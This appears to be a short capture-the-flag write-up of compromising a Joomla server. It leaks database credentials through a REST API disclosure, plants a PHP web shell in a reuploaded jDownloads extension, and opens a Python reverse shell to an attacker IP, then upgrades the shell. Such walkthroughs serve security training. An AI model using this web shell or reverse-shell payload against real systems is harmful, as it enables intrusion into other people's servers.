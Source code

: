 The information dislosure returns configuration files information about db connection through Joomla Rest API call.

```json
{
    "type": "application",
    "id": "224",
    "attributes": {
        "user": "lewis",
        "id": 224
    }
},
{
    "type": "application",
    "id": "224",
    "attributes": {
        "password": "P4ntherg0t1n5r3c0n##",
        "id": 224
    }
}
```

Now, we can login in through administrator using such credentials, and it works. The're the same!

We can upload a joomla extension and infect it with the first joomla extensions I can donwload.

I used `j_download`, then I modified a file of the extension `scan.php` after i saw i could reach that file using the following url:


```
/administrator/components/com_jdownloads/helpers/scan.php
```

So I modified `/admin/helpers/scan.php`

with the following:

```php
$var = $_GET['cmd'];
system($var);
die();
```

The i zipped the extension again and I uploaded it through joomla administration panel.

reverse shell


```bash
GET /administrator/components/com_jdownloads/helpers/scan.php?cmd=export+RHOST%3d"10.10.16.48"%3bexport+RPORT%3d1234%3bpython3+-c+'import+sys,socket,os,pty%3bs%3dsocket.socket()%3bs.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))%3b[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)]%3bpty.spawn("sh")' HTTP/1.1
```

key bindings

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo
fg
```
